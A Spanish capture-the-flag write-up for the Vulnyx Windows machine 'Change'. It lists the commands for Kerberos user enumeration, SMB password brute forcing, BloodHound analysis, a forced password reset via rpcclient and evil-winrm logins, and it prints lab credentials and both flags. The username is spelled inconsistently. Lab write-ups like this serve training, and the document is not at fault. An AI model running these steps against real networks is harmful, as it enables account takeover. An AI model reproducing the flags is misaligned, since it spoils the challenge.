

___
Tags: #AD #smb-bruteforce #kerberos #bloodhound #forcechangepassword #winrm
___
# Change

## Información General

**- Dificultad:** Fácil <br>
**- Sistema operativo:** Windows <br>
**- Vulnerabilidad explotada.**  Missconfigurations <br>
**- Fecha de resolución:** 06/0572026 <br>
**- Enlace:** [change](https://vulnyx.com/machines/) <br>

## Reconocimiento

**ARP-SCAN**

```
sudo arp-scan -I eth0 --localnet --ignoredups
```

<p align="center"> 

</p>

## Enumeración

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 192.168.0.110
```

```bash
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-05-07 06:37:27Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: megachange.nyx, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: megachange.nyx, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
MAC Address: 08:00:27:62:3D:E2 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Microsoft Windows 2019
OS CPE: cpe:/o:microsoft:windows_server_2019
OS details: Microsoft Windows Server 2019
Network Distance: 1 hop
Service Info: Host: CHANGE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-05-07T06:37:28
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_nbstat: NetBIOS name: CHANGE, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:62:3d:e2 (Oracle VirtualBox virtual NIC)
|_clock-skew: 9h59m57s
```

La única forma que conseguí un usuario es usando la herramienta **kerbrute**, [Aquí se descarga](https://github.com/ropnop/kerbrute/releases/tag/v1.0.3)

```
./kerbrute_linux_amd64 userenum -d megachange.nyx --dc 192.168.0.110 /usr/share/seclists/Usernames/Names/names.txt
```

<p align="center"> 

</p>

Luego para conseguir la contraseña del usuario **aldredo** realizo fuerza bruta mediante **crackmapexec**

```
crackmapexec smb 192.168.0.110 -u 'aldredo' -p '/usr/share/wordlists/rockyou.txt' 
```

La contraseña es **Password1**. Por tanto, quedaría **aldredo**:**Password1**

## Explotación

El siguiente comando conseguiremos extraer .zip de todo el AD

```
bloodhound-python -d 'megachange.nyx' -u 'alfredo' -p 'Password1' -gc 'CHANGE.megachange.nyx' -dc 'CHANGE.megachange.nyx' -ns 192.168.0.110 -c all --zip
```

Con el siguiente comando descargamos **bloodhound**, previamente tenemos que tener instalado docker nos dara una contraseña y es q usaremos para acceder 

```
curl -L https://ghst.ly/getbhce | sudo docker-compose -f - up
```

```
http://localhost:8080/
```

Credenciales --> **admin**:**DK9SB2tEKztqZEedgC0Ikh8AawBDdMX6**

Luego subimos .zip en **Quick Upload**, una vez subido nos vamos a **search** y escribimos el nombre del usuario alfredo, nos situamos en el parámetro **Outbound Object Control**, para que salga el panel de la derecha tenemos que clicar en el usuario alfredo.

El permiso ForceChangePassword significa que el usuario **alfredo** tiene el poder de  cambiar la contraseña al usuario **sysadmin**

<p align="center"> 

</p>

Por tanto usaremos rpcclient para cambiar la contraseña al usuario **sysadmin**

```
rpcclient -U "alfredo%Password1" 192.168.0.110
setuserinfo2 sysadmin 23 pass123!!
```

Luego, en **bloodhound** busco quien forma parte del grupo **Remote Management Users** que es el grupo que permite entrar en la herramienta **evil-winrm**

<p align="center"> 

</p>

```
evil-winrm -i 192.168.0.110 -u 'sysadmin' -p 'pass123!!'
```

<p align="center"> 

</p>

flag user: **01c920617c6470cdf46ba5861ce701c2**

## Escalada de Privilegios

Para la escalada de privilegio usaremos **Winpeas** en y nos dara las siguiente credenciales.

Credenciales --> **administrator**:**d0m@in_c0ntr0ll3r**

```
evil-winrm -i 192.168.0.110 -u 'administrator' -p 'd0m@in_c0ntr0ll3r'
type c:\users\administrator\desktop\root.txt
```

<p align="center"> 

</p>

Flag admin: **79bf6f60850f10211c290be19ccf8b95**

## Conclusión

La máquina **Change** de la plataforma **Vulnyx** me ha parecido una maquina bastante asequible para practica AD, he repasado bastante concepto, esta perfecto para la preparación de la certificación ecpptv3 de Ine Security. 